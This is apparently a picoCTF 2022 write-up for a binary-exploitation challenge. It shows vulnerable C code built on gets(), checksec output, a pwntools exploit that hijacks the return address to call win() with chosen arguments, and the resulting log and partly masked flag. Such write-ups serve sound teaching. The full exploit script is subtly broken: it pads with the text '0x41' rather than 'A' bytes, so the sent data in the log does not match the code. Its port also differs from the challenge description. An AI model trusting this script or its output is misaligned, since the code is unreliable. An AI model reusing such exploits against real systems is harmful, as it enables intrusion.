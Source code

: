 # buffer overflow 2

Tags: picoCTF 2022, Binary Exploitation, gets, argments_on_the_stack

| Author | Point    |
| ------ | -------- |
| SANJAY C / PALASH OSWAL | 300 points |

## Description

Control the return address and arguments  
This time you'll need to control the arguments to the function you return to! Can you get the flag from this program?  
You can view source here. And connect with it using nc saturn.picoctf.net 58012

## Hints

1. Try using GDB to print out the stack once you write to it.

## Solve

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

The binary security mechanisms are as follows:

```bash
$ checksec.sh --file vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   vuln
```

It is possible to overwrite the return address in function vuln() and move it to function win().

![](<./images/CleanShot 2024-04-18 at 20.27.47.png>)

However, unless arg1 == 0xCAFEF00D and arg2 == 0xF00DF00D are satisfied, the buf containing the flag will not be printed.

```c
  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
```

![alt text](<./images/CleanShot 2024-04-18 at 20.33.28.png>)

So, the following is the payload:

```python
payload = b''
payload += b'A' * 112 # Junk
payload += p32(0x08049296) # Return address, Jump to win().
payload += b'B' * 4 # Dummy return address to main().
payload += p32(0xcafef00d) # 1st argument
payload += p32(0xf00df00d) # 2nd argument
```

The full exploit code is as follows.

```python
from pwn import *

context.log_level = 'debug'

host = 'saturn.picoctf.net'
port = 50202


p = remote(host, port)

p.recvline()

payload = b''
payload += b'0x41' * 112 # Junk
payload += p32(0x08049296) # Return address, Jump to win().
payload += b'0x42' * 4 # Dummy return address to main().
payload += p32(0xcafef00d) # 1st argument
payload += p32(0xf00df00d) # 2nd argument

p.sendline(payload)

'''
When send payload, the stack is as follows.
------------------------------------------------------
|           Junk 112 bytes, b'0x41' * 112            | <- Offset
------------------------------------------------------
|    Return address to win() 4 bytes, 0x08049296     | <- EIP
------------------------------------------------------
| Dummy return address to main() 4 bytes, b'0x42' * 4|
------------------------------------------------------
|               Arg1 4 bytes, 0xcafef00d             |
------------------------------------------------------
|               Arg2 4 bytes, 0xf00df00d             |
------------------------------------------------------
'''

p.recvall()
```

Run the exploit.

```bash
$ python3 exploit.py            
[+] Opening connection to saturn.picoctf.net on port 50202: Done
[DEBUG] Received 0x1b bytes:
    b'Please enter your string: \n'
[DEBUG] Sent 0x81 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  96 92 04 08  42 42 42 42  0d f0 fe ca  0d f0 0d f0  │····│BBBB│····│····│
    00000080  0a                                                  │·│
    00000081
[+] Receiving all data: Done (163B)
[DEBUG] Received 0x81 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  96 92 04 08  42 42 42 42  0d f0 fe ca  0d f0 0d f0  │····│BBBB│····│····│
    00000080  0a                                                  │·│
    00000081
[DEBUG] Received 0x22 bytes:
    b'picoCTF{argum3nt5_4_d4yZ_********}'
[*] Closed connection to saturn.picoctf.net port 50202
```

## Flag

```
picoCTF{argum3nt5_4_d4yZ_********}
```